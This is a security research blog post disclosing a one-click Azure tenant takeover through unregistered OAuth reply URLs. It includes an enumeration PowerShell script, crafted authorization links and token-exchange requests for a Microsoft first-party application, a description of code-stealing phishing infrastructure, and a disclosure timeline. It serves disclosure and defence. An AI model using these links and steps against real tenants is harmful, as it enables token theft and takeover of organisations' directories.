




+++
title = 'Arbitrary 1-click tenant take over via MS application'
date = 2024-04-02
draft = false
summary = 'In this blog post I explain how reply URLs in Azure Applications can be used as a vector for phishing. The impact of this can range from data leaks to complete tenant takeover; just by luring a victim to clicking on a link.'
+++

> Post co-published at [FalconForce blog](https://falconforce.nl)

## TLDR
In this blog post I explain how reply URLs in Azure Applications can be used as a vector for phishing. The impact of this can range from data leaks to complete tenant takeover; just by luring a victim to clicking on a link.

And there's more: Microsoft misconfigured one of their own first-party applications, allowing a transparent compromise of any tenant, just by clicking on a link.

## The authorization flow
Before jumping to the actual exploitation of this attack, I'd like to spend some time to define a few concepts first; starting with Microsoft Entra ID (formerly known as Azure AD). Microsoft Entra ID is a cloud-based identity and access management solution developed by Microsoft. Its goal is to serve as an identity provider for external resources, which is achieved by implementing the OAuth 2.0 protocol. Most of the settings regarding this functionality can be found in the Enterprise Applications and Application Registration sections in the Azure Portal.

To allow users to sign in and access external resources, Microsoft has implemented several methods known as *flows*, such as the *device code grant* or the *client credentials grant*. The complete list can be found [here](https://learn.microsoft.com/en-us/entra/identity-platform/v2-oauth2-auth-code-flow). In this post, I will focus primarily on the *authorization code flow*. This flow is used heavily from desktop applications to Single Page Applications (SPA). And, as expected, Microsoft's own cloud applications, such as Microsoft Outlook or the Azure Portal, also depend on this flow.

To study the authorization flow in more detail, we can use the following diagram, based on the Microsoft [documentation](https://learn.microsoft.com/en-us/entra/identity-platform/v2-oauth2-auth-code-flow#protocol-details).



Let's try to explain the most important steps with a concrete example: a sign-in into the Microsoft Outlook Web app. The below provides real authorization requests, intercepted from a desktop browser.

The first request which interests us, is the one directed to the  `/organizations/oauth2/v2.0/authorize` endpoint, as seen below (new lines added for clarity):

```
https://login.microsoftonline.com/organizations/oauth2/v2.0/authorize?
client_id=89bee1f7-5e6e-4d8a-9f3d-ecd601259da7
&redirect_uri=https%3A%2F%2Fwebshell.suite.office.com%2Fiframe%2FTokenFactoryIframe
&scope=https%3A%2F%2Fgraph.microsoft.com%2F.default%20openid%20profile%20offline_access
&response_mode=fragment
&response_type=code
&code_challenge=inlt...GGgY
&code_challenge_method=S256
&nonce=as...
```

The GET parameters already tell quite some things:
- `client_id` (AKA `AppId`): application ID of the "Office365 Shell WCSS-Client" application. To authenticate to your tenant, all applications need to be *onboarded- into your directory and consequently, be represented by a Service Principal. Therefore, if you go to any Microsoft 365 enabled tenant, you should be able to look for that Service Principal, by looking it up by this `AppId`. However, it may not exist. How is it possible you may ask? Well, for now I will just say that this has to do with pre-authorization and that this closely relates to the origin of the vulnerability discovered.
- `response_type=code`: this signals to perform an "authorization code flow"; the one we just explained before.
- `scope=https://graph.microsoft.com/.default openid profile offline_access`: scope of the token that will be issued.
- `redirect_uri=https://webshell.suite.office.com/iframe/TokenFactoryIframe`: reply URL where the authorization code will be sent. Applications can have multiple reply URLs defined and they can be defined for web applications, SPAs, desktop clients or mobile applications. Each one of these types involves small variations of the authorization flow, which will be explained later.
- `response_mode=fragment` (optional): the authorization code will be returned within a redirect URL fragment.
- `code_challenge` and `code_challenge_method`: parameters used for the Proof Key for Code Exchange (PKCE), according to the documentation. These values need to be in sync with parameters in the upcoming requests. However, they are not relevant, besides this fact.
- `nonce=as...`: an arbitrary value.
- the rest of the parameters are not relevant for the context of this blog.

Of course, we are missing a very important part, which is the cookie responsible to identify the user. If this is not present, the server will redirect us to the Microsoft sign-in page. In fact, there are two cookies used for this purpose: `ESTSAUTH` and `ESTSAUTHPERSISTENT`. And at least one must be set and valid. Once a user is correctly signed in, or already has a session, these cookies are set. To keep this post concise, I won't be going into much detail on these cookies and I'll assume the user already has an active session in the browser from now on.

Back to the flow. After sending our request to the authorization endpoint, the server returns the authorization code in the response. In this case, the response type is a redirect and the code is contained in the location field as a parameter within the URL fragment:

```
HTTP/1.1 302 Found
Location: https://webshell.suite.office.com/iframe/TokenFactoryIframe#code=0....
...
```

The domain of the redirect is going to play a key role in the attack described in the next chapter. But for now, let's stick to the current example. Since the server returned a redirect, the browser will navigate to the URL specified in the *Location* parameter. At this point, is up to the site to parse the fragment and send the following POST request to the token endpoint:

```
POST /organizations/oauth2/v2.0/token HTTP/1.1
Host: login.microsoftonline.com

client_id=89bee1f7-5e6e-4d8a-9f3d-ecd601259da7
&redirect_uri=https%3A%2F%2Fwebshell.suite.office.com%2Fiframe%2FTokenFactoryIframe
&code=0.A...bw
&grant_type=authorization_code
&code_verifier=TwoFMWjRm-xP5_Tmx4adRghPcq0IXAOF8p0MKHa7ZWc
...
```

Parameters:
- `client_id`: again we specify the ID of the application involved.
- `redirect_uri`: same reply URL as before.
- `code`: the code received in the server response from the authorization request.
- `grant_type=authorization_code` to signal we are using an authorization code grant type.
- `code_verifier`: part of the PKCE. This value is derived from the `code_challenge` and `code_challenge_method` parameters.

The server returns the tokens in the response following suit:

```
HTTP/1.1 200 OK
...
{
    "token_type": "Bearer",
    "scope": "email openid profile https://graph.microsoft.com/Files.ReadWrite https://graph.microsoft.com/User.ReadWrite https://graph.microsoft.com/.default",
    "expires_in": 4902,
    "ext_expires_in": 4902,
    "access_token": "ey...YPw",
    "refresh_token": "0.Kh1...6uw",
    "client_info": "ey...Q5In0"
}
```

And this completes the Authorization flow. The tokens returned will be used by the application to perform authenticated requests against the selected resource, in the above example case `graph.microsoft.com`. There are other interesting details not mentioned. For example, what happens when your access token expires and you need to use the refresh token to get a new one? But this isn't relevant for the attack and I think more details are already well explained in the official documentation.

## The attack
Let's suppose for a moment that one of the reply URLs' domains defined for an Application can be taken over. Maybe because its domain has not been registered or because its subdomain has not been used in a specific service. For example, `*.trafficmanager.net` (load balancing: Traffic Manager), or `*.web.core.windows.net` (storage accounts, static websites).

In that case, we could build an authorization URL with all its GET parameters, and send it to a victim. When the victim clicks on it, it will follow the authorization flow and end up at a site under our control. At this point, our site would have the authorization code which could be sent to the token endpoint and get the `access_token` of the user. Finally, this token would be all we need to access protected resources on behalf of the user.

Take into consideration the next example: the application "hr-manager-app" is used within a company tenant to access a custom application used by employees to register hours, plan days off, etc. As such, the application can delegate access to `graph.microsoft.com` for the `User.Read` and `Directory.Read` permissions. Plus, because the application allows administrators to manage Azure group memberships without leaving the app, it also delegates the `Directory.ReadWrite.All` permission. As it happens, this application has configured the following available reply URL: `iforgottodeploy.trafficmanager.net/auth`.

With all this information, the link to send to the victim would look like this:

```
https://login.microsoftonline.com/organizations/oauth2/v2.0/authorize?
client_id=89bee1f7-5e6e-4d8a-9f3d-ecd601259da7
&redirect_uri=https%3A%2F%2Fiforgottodeploy.trafficmanager.net%2Fauth&scope=https%3A%2F%2Fgraph.microsoft.com%2F.default%20openid%20profile%20offline_access
&response_mode=fragment
&response_type=code
&code_challenge=ghGt...GfNr
&code_challenge_method=S256
&nonce=af...
```

When the user clicks on the link, they will be redirected to the site specified by the reply URL, which has been previously taken over by us. At this point, we just need to include certain logic in the app to complete the authorization flow, get the user tokens, and profit.

Just keep in mind that even if a token is returned scoped to `Directory.ReadWrite.All` for a regular user, you'll get *access denied* if you try to perform any kind of write operation to the directory. This is because the token scope is evaluated together with the user's permissions when performing any authenticated action. So, in this case, obtaining the token for a regular user would imply read access to the directory (i.e., you could run AzureHound), but if you get the tokens for a Global Admin, you'd have the rights to create users and assign them to roles like Global Admin.

## Reply URL types
At this point, we can write a small PowerShell script to enumerate Application Registrations reply URLs in a given tenant, find the ones whose domain aren't registered and start sending links to all Global Admins, right? Well, let's slow down here a bit. Not all reply URLs are the same, and the authorization flow varies depending on their type:

#### Reply URL: Web
The Microsoft diagram I showed in the beginning of this blog, is in fact the flow for a SPA or a native client. When it comes to web applications, the flow has an important caveat: the request to the token endpoint must include a *client assertion* or *client secret*. This basically means a credential in the form of a secret or a certificate must be configured in the Service Principal/Application, so a client assertion/secret can be passed during the authorization flow.

This is designed with the purpose to limit token issuance only to the server running the app. In the real world, the Service Principal secret/certificate will be available to the application running on the web server. Then this application will be the one sending the request to the token endpoint and therefore receiving the access tokens which will allow it to perform actions on behalf of the user. As a consequence, the access token doesn't need to be sent back to the end user.

At the end, what this means is it that - since the token endpoint will reject any request that doesn't include a client secret - this type of Authorization flow is not interesting for us.

But, there's an exception, if the Application is defined to use an *implicit grant*, the authorize endpoint directly returns the access token and the request to the token endpoint is no longer necessary. This is defined in Microsoft documentation as another, completely different, flow: the [implicit grant flow](https://learn.microsoft.com/en-us/entra/identity-platform/v2-oauth2-implicit-grant-flow).

#### Native client (AKA public client) and Mobile Desktop Applications (iOS/Android)
These two types of reply URLs are in fact the same thing under the hood: any URL defined in them will show up as `installedclient` in the application manifest, it just happens the Azure portal shows them as a different type.

This was the type of client that was described by the flow presented earlier. In this case, there's no need for a *client secret* or *assertion* of any type, and the token endpoint returns the access token.

#### Single Page Application (SPA)
Same as a native client, but the requests to the authorization endpoint needs to have an `origin` header, the value of which is not important.

## Enumeration
This time, we do have all the information required to enumerate abusable applications. This can be done with the following PowerShell script, which doesn't require any special privileges to run.

The script enumerates all Application Registrations and then outputs only the ones which have an unregistered URL and matches the necessary conditions to be vulnerable. On top of that, it also enumerates which OAuth2 scope permissions are defined in the application (AKA delegated permissions) and what type of consent is required: user or admin.

```powershell
function missingHTTPUrl{
    param (
        [string]$url
    )

    # Check starts with http/s
    $pattern = "^https?://"
    if ($url -notmatch $pattern) {
        return $false
    }

    # Try to resolve domain
    try {
        $res = Resolve-DnsName ([System.Uri] $url).Host -ErrorAction Stop
    }catch [System.ComponentModel.Win32Exception] {
        return $true
    }catch {
        return $false
    }
    return $false
}


function getOAuthResourceName{
    param (
        [PSObject]$resources
    )

    foreach ($resource in $resources){
        $ResourceAppId =  $resource.ResourceAppId
        $oauth2PermissionScopeIds = $resource.ResourceAccess.Id
        $sp = Get-AzADServicePrincipal -ApplicationId $ResourceAppId
        Write-Host "  Resource App Display Name: $($sp.DisplayName), Resource AppId: $($sp.AppId)"

        foreach ($oauth2PermissionScopeId in $oauth2PermissionScopeIds){
            $value = ($sp.Oauth2PermissionScope |? Id -Match $oauth2PermissionScopeId).value
            $type = ($sp.Oauth2PermissionScope |? Id -Match $oauth2PermissionScopeId).type

            if ($value -eq $null){
                Write-Host "    oauthPermission: (Not an OAuth2 scoped permission), oauthPermissionId: $($oauth2PermissionScopeId)"
            }else{
                Write-Host "    oauthPermission: $($value) (type: $($type)), oauthPermissionId: $($oauth2PermissionScopeId)"
            }
        }
        Write-Host ""
    }
}

# Connect to Azure
Connect-AzAccount

# Load Application URL data from tenant
$apps = Get-AzADApplication

# Filter apps which have abusable reply URLs defined
$appsAbusableReplyURL = @()
foreach ($app in $apps){
    # Skip apps which don't have reply URL defined
    if ([string]::IsNullOrEmpty($app.Spa.RedirectUri) -and
        [string]::IsNullOrEmpty($app.PublicClient.RedirectUri) -and
        [string]::IsNullOrEmpty($app.Web.RedirectUri)
    ){
        continue
    }

    # Check if their reply URL's domain is defined and is abusable
    $appAbusableReplyURLs = @()
    $app.Spa.RedirectUri |% {
        if (missingHTTPUrl -url $_){
            $appAbusableReplyURLs += [PSObject]@{ type="spa"; url=$_; }
        }
    }

    $app.PublicClient.RedirectUri |% {
        if (missingHTTPUrl -url $_){
            $appAbusableReplyURLs += [PSObject]@{ type="publicClient"; url=$_; }
        }
    }
    $app.web.redirectUris |% {
        if ($app.web.ImplicitGrantSetting.EnableAccessTokenIssuance -and
            (missingHTTPUrl -url $_)
        ){
            $appAbusableReplyURLs += [PSObject]@{ type="web (implicitGrant Enabled)"; url=$_; }
        }
    }

    # Skip apps which don't have abusable URLs
    if ($appAbusableReplyURLs.Count -eq 0){
        continue
    }

    Write-Host "App Display Name: $($app.displayName), AppId: $($app.Appid)"
    Write-Host "  Abusable reply URL"
    foreach ($appAbusableReplyURL in $appAbusableReplyURLs){
        Write-Host "    $($appAbusableReplyURL.url) ($($appAbusableReplyURL.type))"
    }
    Write-Host ""

    # Write App Permissions
    getOAuthResourceName -resources $app.RequiredResourceAccess
    Write-Host ""
}
```

After the script has run you should get an output similar to the one below. For this case, I've run the script against a test tenant which has defined some (very) vulnerable applications.

```
App Display Name: app1, AppId: 6e3e48e7-a5c9-7d8b-b8d3-6de67e9cd426
  Abusable reply URL
    https://thisurldoesntexist.azurewebsites.net (spa)
    
  Resource App Display Name: Microsoft Graph, Resource AppId: 00000003-0000-0000-c000-000000000000
    oauthPermission: AppRoleAssignment.ReadWrite.All (type: Admin), oauthPermissionId: 84bc...
    oauthPermission: RoleManagement.ReadWrite.Directory (type: Admin), oauthPermissionId: d01b...
    oauthPermission: (Not an OAuth2 scoped permission), oauthPermissionId: df...

  Resource App Display Name: app1, Resource AppId: 6e3e08e7-a5c3-4d8b-b7d5-6de67e9cd446
    oauthPermission: (Not an OAuth2 scoped permission), oauthPermissionId: 3661a...
    oauthPermission: (Not an OAuth2 scoped permission), oauthPermissionId: ff6...

  Resource App Display Name: OneNote, Resource AppId: 2d4d3d8e-2be3-4bef-9f87-7875a61c29de
    oauthPermission: Notes.Create (type: User), oauthPermissionId: ab111d9c-370c-...


App Display Name: s-app1, AppId: c0c2df4b-67f3-434a-a50b-f1142493c3ae
  Abusable reply URL
    https://thisurlalsodoesntexist.azurewebsites.net (spa)
    https://andjustnaotherurlwhich.doesnt.exists (spa)
    https://moreurlswhicharenot.thereright (publicClient)
    
  Resource App Display Name: Windows Azure Service Management API, Resource AppId: 797f48...
    oauthPermission: user_impersonation (type: User), oauthPermissionId: 41094075-...

  Resource App Display Name: Skype for Business Online, Resource AppId: 00000004-0000-...
    oauthPermission: Conversations.Initiate (type: User), oauthPermissionId: 44e84b5a-52a3-...
    oauthPermission: Contacts.ReadWrite (type: User), oauthPermissionId: 5bdeff8b-73d9-...

  Resource App Display Name: Windows Azure Active Directory, Resource AppId: 00000002-...
    oauthPermission: Directory.ReadWrite.All (type: Admin), oauthPermissionId: 78c8a3c8-...
    oauthPermission: Directory.Read.All (type: Admin), oauthPermissionId: 5778995a-e1bf-...
    oauthPermission: Policy.Read.All (type: Admin), oauthPermissionId: 80e5b1bf-3ad0-...
```

## Consent and pre-authorization
By now you may have found a vulnerable application. If you want to try to run the attack, most probably you'll need the user to give consent during the authorization flow. On top of that, depending on the scope requested consent can only be given by an admin. This is a common problem when it comes to the malicious Azure application OAuth attack, which has already been abused in the past and described previously [here](https://trustedsec.com/blog/creating-a-malicious-azure-ad-oauth2-application) and [here](https://www.microsoft.com/en-us/security/blog/2023/12/12/threat-actors-misuse-oauth-applications-to-automate-financially-driven-attacks/). If the user or admin doesn't grant consent, the flow will be interrupted and no tokens will be issued. An example of a consent prompt can be seen when a user signs in to Microsoft Graph Command Line tools, while requesting the scope `AppRoleAssignment.ReadWrite.All` for the first time for this specific app.



We could stop here, accept it and call it a day, and this is what I did for half a year. Until I decided to revisit the topic again a few months ago with a fundamental question in my mind: if Microsoft's own applications are defined in the same way, why do most of them never have to ask for consent? As proved earlier, the Outlook web app definitely receives tokens scoped to `https://graph.microsoft.com/Directory.ReadWrite`. And why does Microsoft Graph PowerShell ask for consent then? It's definitely an app developed by Microsoft. Since not that long ago I believed some of them were *special* Microsoft apps and, as such, they got a *special* treatment. I was wrong, partially.

Looks like I never paid enough attention to this section in the Azure Portal:



In this section, you can define *custom Application roles*, and most importantly, you can pre-authorize them to a specific *Application ID*. The description is self-explanatory: apps which are pre-authorized for the specified scopes, do not require users to give consent. And this is just what I think Microsoft uses to deploy their own apps; they just use the same functionality available to all customer tenants. Let's demonstrate better with a graph:



The graph shows why some Microsoft apps come pre-consented, while others don't and consequently, they trigger the consent prompt. The graph shows different apps in different Microsoft tenants, but take into account, there's no reason apps defined outside the Microsoft service tenant could not be pre-authorized as well, although I'm not aware such an app exists.

Another important consequence of this is that pre-authorized apps used in a company tenant may not have a Service Principal created at all. Since a user does not need to give consent, there's no reason to create a permission grant list and therefore I understand Azure determines a Service Principal doesn't need to be created. That could be the case for the Office365 Shell WCSS-Client app seen before. This is an important fact, since it means there can be an indeterminate number of Microsoft's own (and maybe pre-authorized) apps which are not known.

However, as mentioned before, first-party applications do have a bit of specialness. Have you ever faced this error?

> AADSTS65002: Consent between first party application '89bee1f7-5e6e-4d8a-9f3d-ecd601259da7' and first party resource '00000003-0000-0000-c000-000000000000' must be configured via preauthorization - applications owned and operated by Microsoft must get approval from the API owner before requesting tokens for that API

This message will be returned if you try to request the `AppRoleAssignment.ReadWrite.All` scope for the Office365 Shell WCSS-Client app. The reason for this is that even if this first-party app defined this resource in their API Permissions page, Azure refuses to continue if that scope is not pre-authorized by the MS Graph. I guess Microsoft decided to put this extra check in place, so the resource owners are ultimately in control when it comes to Microsoft-owned application. But at the same time, they allow the authorized application to request tokens without a user's consent.

## Targeting first-party applications
After digesting all this, another question arised: why limit our enumeration to customer-defined applications? There are plenty of Service Principals in any tenant, and them being instances of applications, they could also have several reply URLs defined. On top of that, we can specifically target Microsoft first-party apps, because - since they will need to be pre-authorized - no consent will be asked to the user during the attack.

To carry out this task, we first need to find as many Microsoft-owned applications as possible. (In)conveniently, Microsoft keeps an (incomplete) record of first party applications in [this]( https://learn.microsoft.com/en-us/troubleshoot/azure/active-directory/verify-first-party-apps-sign-in) page. This incomplete record can be further completed thanks to [this](https://github.com/merill/microsoft-info?tab=readme-ov-file) repository, which has the objective to collect as many first-party applications as possible.

Next, to figure out the reply URLs of these applications, we need to import them first to our tenant:

```
New-AzADServicePrincipal -ApplicationId <appId>
```

Then we can query the service principal properties to retrieve their reply URLs:

```
(Get-AzServicePrincipal -ApplicationId <appId>).replyUrls
```

I repeated this step for all Microsoft-owned applications I could gather using the resources mentioned before and then I looked for unregistered reply URLs that could be taken over.

To my surprise, there were plenty of Microsoft applications with several reply URLs whose domains were available. However, only a small subset of them could be taken over. I used the remaining candidates in an authorization flow and I had to play a bit with the parameters to figure out what reply URL type they belonged to. After checking all them, I was left just with one application and one reply URL:

```
Display Name: Microsoft Dynamics 365 Supply Chain Visibility
AppId: d6037e40-282c-493d-8f63-f255e36c6ef4
ReplyURL: https://scv.azureedge.net/auth
```

Actually, this application owned by Microsoft specified multiple reply URLs which could be potentially taken over, like: `https://scvproduxwestus2.z5.web.core.windows.net/authframe`. But most of them were already used within Azure, except of course for: `scv.azureedge.net`, which was still available back then. Domains like `*.azureedge.net` are registered when you create a new Azure CDN and they depend on the name you assign to the service. That said, we were fast at FalconForce to go to our test tenant and register a new CDN for `svc`.

With all that, an authorize request for this application and reply URL looked like this:

```
https://login.microsoftonline.com/common/oauth2/v2.0/authorize?
client_id=d6037e40-282c-493d-8f63-f255e36c6ef4&
response_type=code&
scope=https%3a%2f%2fgraph.microsoft.com%2f.default&
code_challenge=r28qDfmtnCyRedcGckQkfvFQHcBZA3_vLRPxWm8UWF4&
code_challenge_method=S256&response_mode=query&
redirect_uri=https%3a%2f%2fscv.azureedge.net%2fauth
&nonce=sddd
```

Visiting this URL with any user would redirect it, without consent, to `svc.azureedge.net` with an authorization code. Next, sending the appropriate request to the token endpoint returned the following token:

```
POST https://login.microsoftonline.com/common/oauth2/token

grant_type=authorization_code
scope=https://graph.microsoft.com/.default
code=0.AV8A...Ao_Upna
client_id=d6037e40-282c-493d-8f63-f255e36c6ef4
resource=https://graph.microsoft.com
code_verifier=aWiBCBNOF4xzGOCjmTA0IdQdSXj4lbS9oNiywvRYIAM
redirect_uri=https://scv.azureedge.net/auth

HTTP/1.1 200 OK
...
{
	"token_type": "Bearer",
	"scope": "Application.Read.All Group.Read.All Organization.Read.All RoleManagement.Read.Directory User.Read.All",
	"resource": "https://graph.microsoft.com",
	"access_token": "eyJ0e...yaQZgbN0_5GB_hlQ",
	"refresh_token": "0.AYI...h8w",
	"id_token": "eyJ...AifQ."
	...
}
```

And there we had it! We owned the site pointed by a reply URL from a Microsoft-owned application which was pre-authorized by MS Graph. The application returned a token with read access to the directory. On top of that, a regular user in Azure is authorized to read most of the information in a directory like applications, group, roles, etc. This means that regardless of the type of user that clicks on a link, you, as an attacker, will always get a list of all users and their details defined in the directory, including emails, phone numbers etc. Plus, it also allowed to query a list of all role memberships, so we could find out which accounts were Global Admins, for example.

## Increasing the impact
So far, we got read access to the directory. But wait, things didn't stop there.

If you pay close attention to the authorize URL, you can see how we are setting a Microsoft Graph scope. But maybe this application was pre-authorized for other resources as well. What about the Azure Active Directory application? This is an application which is more commonly known for its PowerShell family of cmdlets: [AzureAD](https://learn.microsoft.com/en-us/powershell/module/azuread/?view=azureadps-2.0).

To try this, we can change the authorize URL to the following one:

```
https://login.microsoftonline.com/common/oauth2/v2.0/authorize?
client_id=d6037e40-282c-493d-8f63-f255e36c6ef4&
scope=https%3a%2f%2fgraph.windows.net%2f.default&
redirect_uri=https%3a%2f%2fscv.azureedge.net%2fauth
...
```

**Side note:** until now we have been using the `.default` scope. This is a special keyword which requests all scopes which are already authorized or need to be consented. However, nothing is stopping us from specifying a specific scope as well. More information about the `.default` scope can be found [here](https://learn.microsoft.com/en-us/entra/identity-platform/scopes-oidc#the-default-scope).

This changed URL also returned a valid authorization code, that - when sent with the appropriate parameters - returned the following token scoped to a very interesting permission.

```
POST https://login.microsoftonline.com/common/oauth2/token
...

HTTP/1.1 200 OK
...
{
	"token_type": "Bearer",
	"scope": "user_impersonation",
	"resource": "https://graph.windows.net",
	"access_token": "eyJ0e...yaQZgbN0_5GB_hlQ",
	"refresh_token": "0.AYI...h8w",
	"id_token": "eyJ...AifQ."
	...
}
```

This OAuth2 scope, which happens to be undocumented within the Azure AD Service Principal, basically allows you to perform any kind of action to the tenant as the user. This means that if this token was issued to a Global Admin, you can create users, reset passwords and assign any kind of role to an arbitrary user.

In summary: we managed to craft a link that, when followed by a high privilege user, allows us to take over a tenant. And since this is a Microsoft pre-authorized application, no consent will be displayed. Consequently, if the user already has a session, it will be totally transparent for them.

But let's say you *really* want to use this. Well, then from an operational point of view, contact details of high-privileged users, like Global Admins, may not immediately be known. In that case the attack explained before targeting regular users comes in handy, as a way to collect a list of all high-privileged users' contact details. Then, we can use the Windows Graph link described just now against Global Admins to complete the attack and take control of the tenant.

## The final attack
So far, I explained the *theory* behind this attack. To make the attack possible there's some infrastructure that needs to be set up first:
- **Azure CDN registered**: the most important thing, create an Azure CDN to register the domain `scv.azureedge.net`. The CDN is configured to serve a static web page from a blob storage.
- **Static website via blob storage**: this static website will contain the code to forward the authorization code to a server under our control.
- **Server with public IP:** a server that will receive the authorization code sent from the browser victim. When the code is received, it will send a request to the token endpoint and retrieve the tokens. For the sake of the PoC, the server is also adding a pre-determined user to Global Administrators. Do note that this whole logic could have been set up within the victim browser as well, so no server was strictly required.

To showcase that the attack actually worked in practice, I added the below video. The video shows how the low-privilege user `t6` is inadvertently added to the Global Admin role when the Global Admin `cactus-adm` clicks on a link received through Teams. This video was recorded on the 18th of November of 2023 in a regular tenant with no special entries in hosts files or DNS setups in the victim system.



## Microsoft response
Due to the nature of this vulnerability, no one else could abuse it since we owned the Azure CDN that was linked to the `scv.azureedge.net` domain. Despite this, we decided to responsibly disclose this issue to Microsoft. Besides, other (Microsoft?) vulnerable applications we didn't know about could still exist and expose others to the same attack. 

- 18 Nov 2023: Report sent to MSRC.
- 22 Nov 2023: MSRC opens a case to track this issue.
- 18 Dec 2023: MSRC confirms they can reproduce the behavior and forwards the case to the Bug Bounty department.
- 18 Dec 2023: MSRC bug bounty department confirms the vulnerability with Severity: Important and Impact: Elevation of Privilege. But it also says the vulnerability doesn't qualify for a reward because the application affected is not part of the [Microsoft Bounty Program](https://www.microsoft.com/en-us/msrc/bounty) (which we feel is quite strange reasoning, as we identified a 1-click arbitrary tenant take-over)
- 19 Dec 2023: Reply sent expressing our disagreement with the response.
- 20 Dec 2023: MSRC says the app was already decommissioned on 10/31/2023 and therefore, they closed the case (please note: the app was and is still available as of today).
- 22 Dec 2023: Reply sent communicating the app and issue is still present.
- 6 Jan 2024: Second message from our part to try to communicate with MSRC

*No more messages from MSRC were received*

* 29 Jan 2024: We found out that Microsoft silently fixed the issue by removing the abusable reply URLs defined in the app.

## Takeaways
- This post explained how misconfigured applications can lead to unintentional data leaks or, in the worst case, complete tenant take overs.
- It’s very important to periodically monitor your own environment for reply URLs that are not registered, specially the ones that can be taken over. The script from above comes in handy for this purpose.
- Even if you did your due diligence cleaning your tenant from misconfigured reply URLs, you can still be vulnerable if a third party applications you trust, i.e. Microsoft, misconfigures one of his applications. Therefore is very important to not visit untrusted sites or links with a browser where a high-privilege user has an active session.

## Credits
- Henri Hambartsumyan for helping me discover and register the reply URL.
- Dirk-jan Mollema to review the blog and fix some errors in the text.
- Rest of the FalconForce team for their support during this research.